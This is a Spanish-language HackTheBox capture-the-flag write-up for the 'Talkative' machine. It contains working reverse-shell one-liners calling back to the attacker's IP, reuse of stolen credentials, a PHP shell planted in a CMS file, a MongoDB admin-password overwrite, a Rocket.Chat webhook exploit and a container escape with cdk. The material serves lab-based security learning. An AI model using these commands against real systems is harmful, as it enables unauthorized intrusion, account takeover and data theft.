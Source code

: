 ```yaml
---
title: Talkative hackthebox writeup
author: HackerCloud
date: 2022-08-30 00:00:00 +0800
categories: [Hackthebox, machine, writeup]
tags: [Hackthebox, writeup]
pin: false
image:
	 ../../assets/img/commons/talkative-writeup/Talkative.png
	 width: 800
	 height: 500
	 alt: Banner Talkative
---
```


Empezamos con el escaneo de nmap sobre los puertos de la máquina

```bash
❯ sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.155 -oG allPorts
Scanning 10.10.11.155 [65535 ports]
Discovered open port 8080/tcp on 10.10.11.155
Discovered open port 80/tcp on 10.10.11.155
Discovered open port 8081/tcp on 10.10.11.155
Discovered open port 3000/tcp on 10.10.11.155
Discovered open port 8082/tcp on 10.10.11.155
Nmap scan report for 10.10.11.155
PORT     STATE SERVICE         REASON
80/tcp   open  http            syn-ack ttl 62
3000/tcp open  ppp             syn-ack ttl 62
8080/tcp open  http-proxy      syn-ack ttl 62
8081/tcp open  blackice-icecap syn-ack ttl 62
8082/tcp open  blackice-alerts syn-ack ttl 62
```

Con curl podemos ver un dominio

```html
❯ curl 10.10.11.155
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://talkative.htb">here</a>.</p>
<hr>
</body></html>
```

En el puerto 80 no encontramos nada interesante, podemos ir al puerto 8080 a ver su contenido

Podemos ver que hay una aplicación de Hoja de cálculo normal, tenemos disponible un editor que nos permite ejecutar código, vamos a intentar ejecutar una reverse shell

En este caso voy a usar esta reverse shell `system('bash -c "bash -i >& /dev/tcp/10.10.14.75/1234 0>&1"')`

Y nos llega una shell, se puede ver que es un contenedor, pero podemos ver cosas

```bash
❯ sudo nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 45940
root@b06821bbda78:/# whoami
whoami
root
root@b06821bbda78:/# hostname -I
hostname -I
172.18.0.2 
root@b06821bbda78:/#
```

Encontramos el archivo `/root/bolt-administration.omv`, no tenemos nada dentro de la máquina para poder descargar este archivo en nuestra máquina, podemos usar pwncat-cs para descargarlo

Una vez descargado podemos ver que contiene usuarios y contraseñas

~~~
matt
janit
saul
jeO09ufhWD<s
bZ89h}V<S_DA
)SQWGm>9KHEA
~~~

Dentro de http://talkative.htb hay un directorio bolt, el cual contiene un Login, podemos probar las crendenciales que hemos encontrado

El usuario admin funciona con la contraseña `jeO09ufhWD<s`  

Una vez iniciada la sesión podemos ver un apartado de configuración, dentro hay un apartado llamado `All Configuration Files`, vamos a ver su contenido

Podemos ver un archivo llamado `Bundle.php` , le damos click y metemos una reverse shell en php dentro

Nos ponemos en escucha con Netcat y nos llega una reverse shell como www-data, podemos ver que estamos en un contenedor

```bash
❯ sudo nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 57846
www-data@b922262b694b:/var/www/talkative.htb/bolt/public$ hostname -I
hostname -I
172.17.0.15 
```

Este contenedor no nos da mucha información, podemos probar las credenciales encontradas anteriormente por SSH

```bash
www-data@b922262b694b:/var/www/talkative.htb/bolt/public$ ssh saul@172.17.0.1
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
saul@172.17.0.1 password: jeO09ufhWD<s
saul@talkative:~$ whoami
saul
saul@talkative:~$ cat user.txt 
cd8c******cb258c950d9edcc065
```

Con pspy descubrimos este proceso

```bash
CMD: UID=0    PID=4894   | /bin/sh -c python3 /root/.backup/update_mongo.py
```

```bash
saul@talkative:~$ netstat -nat
tcp        0      0 172.17.0.1:43752        172.17.0.2:27017        TIME_WAIT
```

Vemos el puerto de mongo abierto, por defecto es el 27017

Con [chisel](https://github.com/jpillora/chisel) tunelizamos la conexión hacia nuestra máquina

```bash
❯ chisel server --reverse --port 8000
2022/08/30 17:21:20 server: Reverse tunnelling enabled
2022/08/30 17:21:20 server: Fingerprint 4iFocLbXWmRvOoiAYCwK9t8TfvcH6MJOSR1ngLYhgoM=
2022/08/30 17:21:20 server: Listening on http://0.0.0.0:8000
```

```bash
saul@talkative:~$  ./chisel client 10.10.14.75:8000 R:27017:172.17.0.2:27017
2022/08/30 15:25:37 client: Connecting to ws://10.10.14.75:8000
2022/08/30 15:25:37 client: Connected (Latency 38.916105ms)
```

Ahora podemos intentar conectarnos a mongoDB e intentar cambiar la contraseña del usuario administrador de la web

```bash
rs0 [direct: primary] test> show databases
admin   104.00 KiB
config  124.00 KiB
local    11.69 MiB
meteor    4.91 MiB
rs0 [direct: primary] test> use meteor
switched to db meteor
rs0 [direct: primary] meteor> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 1,
  upsertedCount: 0
}
```

Ahora como tenemos tunelizada la conexión tenemos que meternos por el puerto 8000

Podemos ir al apartado de Administración>integraciones para crear una nueva integración

Nueva integración>WebHook entrante

Habilitado: Verdadero
Nomb: Shell
Canal: #general
Publicar como: admin
script habilitado: verdadero

Vamos a usar la primera línea de este [exploit](https://github.com/CsEnox/CVE-2021-22911/blob/main/exploit.py) 

```bash
const require = console.log.constructor('return process.mainModule.require')();
require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.75/1234 0>&1"');
```

Lo guardamos y hacemos un curl a la URL con nuestro Token

```bash
❯ curl http://talkative.htb:3000/hooks/hA7ZNgGYHtRhpYBjH/CsNw6amXPMXR4PH9SANT7cyrFaDwhMpLNiiCwHzX9gCfwXcc
{"success":false}
```

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 57468
root@c150397ccd63:/app/bundle/programs/server# hostname -I
hostname -I
172.17.0.3
```

Ahora con pwncat-cs un cdk podemos conseguir archivos de la máquina real, podemos leer directamente la flag.

```bash
❯ pwncat-cs -lp 1234
[17:41:55] Welcome to pwncat 🐈!                                                                                                               
(local) pwncat$ upload cdk /root/cdk
/root/cdk
[17:42:12] uploaded 11.91MiB in 6.67 seconds                                                                                                      
(local) pwncat$ back
(remote) root@c150397ccd63:/app/bundle/programs/server# cd /root
(remote) root@c150397ccd63:/root# chmod +x cdk                                                                                                               
(remote) root@c150397ccd63:/root# ./cdk run cap-dac-read-search /root/root.txt                                                                               
Running with target: /root/root.txt, ref: /etc/hostname
57ebcfafa23a47da6507a95d1307beff
(remote) root@c150397ccd63:/root#
```

